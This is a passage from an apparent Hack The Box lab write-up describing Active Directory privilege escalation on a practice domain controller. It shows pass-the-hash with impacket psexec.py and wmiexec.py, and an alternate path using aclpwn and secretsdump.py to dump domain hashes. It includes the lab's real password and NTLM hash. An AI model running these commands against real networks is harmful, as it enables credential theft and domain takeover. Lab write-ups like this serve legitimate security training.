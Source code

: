 I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with psexec.py to get a shell as 'nt authority\system'

```
~/tools/impacket/examples/psexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![image](assets/81127426-274da180-8f0c-11ea-8ab9-d1fc5fb96238.png)

**Alternate Privesc path**

An alternative way to do this is to use aclpwn which basically automates all the steps that were done in powershell above.

> https://github.com/fox-it/aclpwn.py.git

Neo4j and Bloodhound were both still running from earlier (aclpwn requires they both be running).

I ran aclpwn.py, specifying the domain username and the ne4j username and password

```
python ./aclpwn.py/aclpwn.py -f svc-alfresco@htb.local -d htb.local -s 10.10.10.161 -du neo4j -dp password
>> enter password "s3rvice" when prompted <<
press option 1
```

The account now had permissions to dump domain hashes

```
~/tools/impacket/examples/secretsdump.py "svc-alfresco:s3rvice"@10.10.10.161
```

I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with wmixec.py to get a shell as 'htb\administrator'

```
~/tools/impacket/examples/wmiexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![image](assets/81127712-13566f80-8f0d-11ea-88e1-25689509ea9f.png)
